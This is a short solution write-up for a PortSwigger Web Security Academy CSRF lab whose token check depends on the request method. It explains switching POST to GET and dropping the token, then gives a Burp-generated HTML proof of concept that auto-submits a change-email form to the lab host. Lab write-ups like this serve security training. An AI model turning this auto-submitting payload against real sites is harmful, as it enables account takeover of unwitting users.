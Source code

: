 # Lab: CSRF where token validation depends on request method

**Link**: [https://portswigger.net/web-security/csrf/lab-no-defenses](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

**Solution**: seems that the CSRF token is fixed and there is no validation
1- Intercept the request with burp

2- Change the POST request to GET and delete the csrf token paramter

like the folllowing

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a9e000003c906e7c1125c66009600d9.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="mohamed&#46;aaaa&#64;yahoo&#46;comaa" />

      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

<p align="center" width="100%">
  <img src="https://github.com/aboelkassem/portswigger-labs/blob/main/CSRF/Lab%20CSRF%20where%20token%20validation%20depends%20on%20request%20method/image1.png" width="500" hight="500"/>
</p>
